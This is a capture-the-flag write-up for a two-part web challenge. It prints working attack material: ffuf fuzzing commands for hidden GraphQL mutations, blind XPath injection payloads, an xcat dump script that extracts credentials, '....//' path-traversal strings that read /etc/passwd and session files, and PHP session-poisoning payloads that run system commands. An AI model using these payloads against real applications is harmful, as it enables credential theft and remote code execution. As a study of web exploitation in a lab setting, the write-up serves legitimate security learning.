


## Part 1

### Initial recon


Try logging in with any account:

```text
Username: a
Password: a
```

Burp captures a request to the `/graphql` endpoint:



So the backend uses GraphQL at:

```text
/graphql
```

### Checking GraphQL field suggestion

Try changing the mutation from `login` to `log`:


This confirms the GraphQL server has field suggestion enabled. When calling a field with a wrong name, the server suggests the closest field. This is important because introspection may be disabled, but field suggestion can still leak the names of hidden mutations.

### Finding the hidden mutation

Use this wordlist:

```
git clone https://github.com/Escape-Technologies/graphql-wordlist
```

Then fuzz:
```
ffuf -w graphql-wordlist/wordlists/mutationFieldWordlist.txt:FUZZ \
-u https://vibed-intranet-p1-05ec2a6cf75a19f7.tjc.tf/graphql \
-X POST \
-H 'Content-Type: application/json' \
-d '{"query":"mutation Login($username: String!, $password: String!) {\n  FUZZ(username: $username, password: $password) {\n    authenticated\n    message\n    token\n    tokenExpiresAt\n  }\n}","variables":{"username":"a","password":"a"}}' \
-mc all -fs 0-200
```

Test the first result right away:
```
updateSnippet           [Status: 400, Size: 205, Words: 11, Lines: 2, Duration: 995ms]
```


Found the hidden mutation:

```text
updateStudentX
```

### Determining the correct format of `updateStudentX`

Switching to the `updateStudentX` mutation, we get the errors:

```
Unknown argument "password" on field "Mutation.updateStudentX".
Cannot query field "authenticated" on type "UpdateStudentXResult".
Cannot query field "token" on type "UpdateStudentXResult". Did you mean "ok"?
Cannot query field "tokenExpiresAt" on type "UpdateStudentXResult".
Field "updateStudentX" argument "description" of type "String!" is required, but it was not provided.
Field "updateStudentX" argument "grade" of type "Int!" is required, but it was not provided.
```

Because this mutation does not take `password`, and also does not have fields like `authenticated`, `token`, `tokenExpiresAt`.

=> The correct format is:

```json
{
  "query": "mutation updateStudentX($username: String!, $description: String!, $grade: Int!) {\n  updateStudentX(username: $username, description: $description, grade: $grade) {\n    message\n    ok\n  }\n}",
  "variables": {
    "username": "a",
    "description": "a",
    "grade": 100
  }
}
```

Response:

```json
{
  "data": {
    "updateStudentX": {
      "message": "Token is required.",
      "ok": false
    }
  }
}
```

Even though the server reports a missing token, the `ok` field can still reflect the result of the backend processing.

### Confirming Blind XPath Injection

Try an always-true payload:

```json
{
  "query": "mutation updateStudentX($username: String!, $description: String!, $grade: Int!) {\n  updateStudentX(username: $username, description: $description, grade: $grade) {\n    message\n    ok\n  }\n}",
  "variables": {
    "username": "a' or '1'='1",
    "description": "a",
    "grade": 100
  }
}
```

Response:

```json
{
  "data": {
    "updateStudentX": {
      "message": "Token is required.",
      "ok": true
    }
  }
}
```

Try an always-false payload:

```json
{
  "query": "mutation updateStudentX($username: String!, $description: String!, $grade: Int!) {\n  updateStudentX(username: $username, description: $description, grade: $grade) {\n    message\n    ok\n  }\n}",
  "variables": {
    "username": "a' or '1'='2",
    "description": "a",
    "grade": 100
  }
}
```

Response:

```json
{
  "data": {
    "updateStudentX": {
      "message": "Token is required.",
      "ok": false
    }
  }
}
```

=> The `username` parameter is placed into an XPath query unsafely.

---

### Dumping XML with xcat

XML dump script:

```python
import asyncio
import json
from xcat import algorithms, utils
from xcat.attack import AttackContext, Encoding, Injection
from xcat.cli import get_features
from xcat.display import display_xml

URL = "https://vibed-intranet-p1-05ec2a6cf75a19f7.tjc.tf/graphql"

algorithms.ASCII_SEARCH_SPACE = "".join(map(chr, range(32, 127)))

def tamper(_, args):
    params = args.pop("params", None) or args.pop("data", None) or {}

    args["data"] = json.dumps(
        {
            "query": "mutation updateStudentX($username: String!, $description: String!, $grade: Int!) {\n  updateStudentX(username: $username, description: $description, grade: $grade) {\n    message\n    ok\n  }\n}",
            "variables": {
                "username": params["username"],
                "description": params["description"],
                "grade": int(params["grade"]),
            },
        }
    ).encode()

async def main():
    context = AttackContext(
        url=URL,
        method="POST",
        target_parameter="username",
        parameters={
            "username": "a",
            "description": "a",
            "grade": "100",
        },
        match_function=utils.make_match_function(None, (False, '"ok":true')),
        concurrency=5,
        fast_mode=False,
        body=None,
        headers={
            "Content-Type": "application/json",
            "Accept": "application/json",
        },
        encoding=Encoding.URL,
        oob_details=None,
        tamper_function=tamper,
    )

    inj = Injection(
        "or",
        "",
        (
            ("{working}' or '1'='1", True),
            ("{working}' or '1'='2", False),
        ),
        "{working}' or {expression} or '1'='2",
    )

    for feature, available in await get_features(context, inj):
        context.features[feature.name] = available

    async with context.start(inj) as bxpinj:
        await display_xml([await algorithms.get_nodes(bxpinj)])

asyncio.run(main())
```

The dump produces XML containing the credentials:

```xml
<tjPortal>
    <accounts>
        <account>
            <username>
                Andyrew
            </username>
            <password>
                amkji2ho2hO#*EH*(@Hhshag
            </password>
        </account>
    </accounts>
</tjPortal>
```

The credentials obtained:

```text
Username: Andyrew
Password: amkji2ho2hO#*EH*(@Hhshag
```



### Flag part1

```text
tjctf{w0W_y0U_r3A1ly_w3Nt_1n_bL1ND}
```

---

## Part 2

### Identifying the preview endpoint

After logging into the portal, we see the MOTD Upload feature.

Click Upload MOTD, and Burp captures the request:

```http
GET /preview.php?view=default.txt HTTP/2
Host: vibed-intranet-p1-05ec2a6cf75a19f7.tjc.tf
Cookie: PHPSESSID=53c9b76f9acca9dd1483ff10c3aaeee5
```

The response returns the default MOTD content:

```text
Welcome to the TJ Intranet. Please report any security vulnerabilities you find to staff!
```

Endpoint:

```text
/preview.php?view=
```

### Testing Local File Inclusion

```text
....//....//....//....//....//etc/passwd
```

Response:

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
andrew:x:1000:1000::/home/andrew:/bin/bash
```

So the `view` parameter is vulnerable to Local File Inclusion.

The reason is that the server has a filter removing `../`, but it only processes it once. When using `....//`, after the filter removes `../`, the string can turn into a valid traversal in the form `../`.

### Reading the PHP session file via LFI

We have `PHPSESSID=53c9b76f9acca9dd1483ff10c3aaeee5`, enter:

```text
....//....//....//....//....//var/lib/php/sessions/sess_53c9b76f9acca9dd1483ff10c3aaeee5
```

Response:

```text
username|s:7:"Andyrew";token_expires_at|s:24:"2026-05-30T16:10:20.673Z";recent_views|a:4:{i:0;s:11:"default.txt";i:1;s:11:"default.txt";i:2;s:40:"....//....//....//....//....//etc/passwd";i:3;s:88:"....//....//....//....//....//var/lib/php/sessions/sess_53c9b76f9acca9dd1483ff10c3aaeee5";}
```

The session has the field:

```text
recent_views
```

The values previously entered into `view` are recorded in the session file. This is the basis for poisoning the session with PHP code.

### Session poisoning to test for RCE

<!-- Idea:

1. Enter PHP code into the **MOTD filename** field.
2. The app writes that value into `recent_views` in the session.
3. Use LFI to include the session file again.
4. The PHP code in the session file gets parsed and executed.

On the web UI, enter: -->

```php
<?php system("ls /home/"); ?>
```

Response:

```text
Document not found.
```

This is normal. The goal of this request is not to read a file directly, but to write the PHP payload into the session.

Then include the session file again by entering:

```text
....//....//....//....//....//var/lib/php/sessions/sess_53c9b76f9acca9dd1483ff10c3aaeee5
```

In the session output we can see:

```text
;i:4;s:29:"andrew
";i:5;s:88
```

This proves the payload was executed successfully and we have RCE.

### Listing the `/home/andrew` directory

```php
<?php system("ls /home/andrew"); ?>
```

Then include the session file again by entering:

```text
....//....//....//....//....//var/lib/php/sessions/sess_53c9b76f9acca9dd1483ff10c3aaeee5
```

In the session output:

```text
i:4;s:35:"2283274892734342376.txt
";i:5
```

### Reading the flag

If we read the file directly:

```php
<?php system("cat /home/andrew/2283274892734342376.txt"); ?>
```

the web may return:

```text
This file type was blocked.
```

The reason is that `view` contains the literal `.txt`, and the backend filter can detect the extension and block it.

Bypass it with the wildcard `*` instead of writing the `.txt` filename directly.

```php
<?php system("cat /home/andrew/*"); ?>
```

Then include the session file one last time by entering:

```text
....//....//....//....//....//var/lib/php/sessions/sess_53c9b76f9acca9dd1483ff10c3aaeee5
```


### Flag part2

```text
tjctf{l0gS_Ar3_fUn_aR3nT_1H3y}
```
